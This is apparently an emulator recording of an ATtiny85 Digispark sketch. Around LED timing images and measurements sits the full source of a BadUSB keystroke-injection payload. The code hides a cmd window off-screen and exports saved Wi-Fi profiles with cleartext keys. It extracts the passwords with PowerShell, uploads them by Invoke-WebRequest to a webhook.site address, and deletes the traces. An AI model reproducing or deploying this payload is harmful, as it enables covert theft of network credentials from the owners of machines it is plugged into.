
Recording of a sketch running on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 110.1 s:

Timing chart, 0 to 111.6 s (numbered marks = the images above):


The sketch:

WifiKey-Grab_Minimize-of-Shame.ino
```cpp
/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook and hide the cmd windows by using technique mentioned in hak5darren
 rubberducky wiki -- Payload hide cmd window [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---hide-cmd-window]
*/


#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 7.5 s, → LOW 90.0 s later, → HIGH 12.5 s later
